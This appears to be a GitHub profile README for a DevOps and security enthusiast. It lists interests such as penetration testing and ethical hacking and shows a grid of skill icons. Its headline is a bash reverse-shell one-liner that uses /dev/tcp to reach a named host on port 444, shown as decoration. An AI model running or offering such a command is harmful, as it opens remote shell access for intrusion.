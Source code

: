 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  <img src="https://i.gifer.com/3rNn.gif" alt="image" width="600" align="right">
  </p>

   &lt;config&gt;

♾️ Devops

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing


   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=azure,aws,docker,,git,github,grafana,prometheus,ansible,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,py,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
